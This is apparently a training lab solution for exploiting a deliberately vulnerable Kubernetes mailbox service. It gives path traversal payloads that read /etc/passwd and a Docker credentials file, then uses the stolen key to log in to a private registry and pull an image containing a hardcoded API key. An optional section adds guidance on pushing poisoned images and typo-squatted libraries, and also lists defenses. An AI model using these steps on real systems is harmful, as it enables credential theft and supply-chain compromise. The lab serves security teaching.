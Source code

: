 # Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.oss-k8s-security.cloudsec.training`

* Login to the application using `username: bob` and `password: bobmailbox`

![](images/app-login.png)

* We can see that `README.md` discloses information regarding the private registry

![](images/information-disclosure.png)


* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`

![](images/path-traversal-exploitation.png)

* Similarly we can read other sensitive files in the system and find that the system contains `/root/.docker/config.json` with payload `qqqqq/../../root/.docker/config.json`

![](images/docker-config.png)

* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```

![](images/docker-registry-login.png)

* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```

![](images/pull-private-image.png)

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```

![](images/source-code-hardcoded-key.png)

* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image


## (Optional) Now lets gain persistence and spread through the company. 

The ability to push to arbitrary repositories
is a company ending event. It bypasses all the gating checks between environments and offers complete 
lateral movement. It offers the attacker the chance to hop from dev to production, or datacenter to cloud.

Let's rebuild the container. Inspecting the image using the `docker history` command
shows information about the layers much like `git history`. The dfimage container leverages
layer metadata to build a nice Dockerfile. If it fails, fall back to `docker history`.

```
alias dfimage="docker run -v /var/run/docker.sock:/var/run/docker.sock --rm alpine/dfimage"
dfimage -sV=1.36 kbroughton/k8s-workshop-mailbox-service
```

Any "COPY" or "ADD" commands will need to be recovered from directories in the container.
"ENV" and "LABEL" with spaces between items may need to be quoted. Expect other manual touch-ups.

Copy the output into a Dockerfile. We will modify it, tag it and push to the new container to the repo.
Any manifests which use the "latest" tag will easily pick this up. If not, but we know the existing tag,
then we can likely over-write the tag. Artifactory has a no-overwrite setting but it is disabled by default.

From within the container, the container code would need to be exfiltrated or modified insitue.
From the node, with the running container
```
docker cp $CONTAINER_ID:/path node_path
```

The best target for embedding malicious content would be 3rd party libraries with typo-squatted names
or portions of the container codebase which are complex or had undergone recent overhauls.

The major defenses are:

* Binary authorization / Notary Services so that only a few dedicated build machines can sign container manifests
and only signed containers can run on production nodes.
* Separate repos for development and production. Many devs can push to a wild-west container repo, but only strictly
gated service accounts can publish to production repositories.

The same impact and defenses apply to the ability to write to source repositories. The most difficult things to
secure are common utility repos which many teams may need to update.

* An alternative coming soon... kubectl debug

Released in kubectl v1.8 in beta, you can latch onto a running pod but with elevated tools and privileges
of a debug container speficied in the `--image` section in the command below.

```
kubectl alpha debug -it mailbox-service-74c9949944-rn5k4 --image alpine --target mailbox-service-74c9949944-rn5k4
```

## Instructor Notes

[Custom Kind with ephemeral containers](https://medium.com/01001101/ephemeral-containers-the-future-of-kubernetes-workload-debugging-c5b7ded3019f)

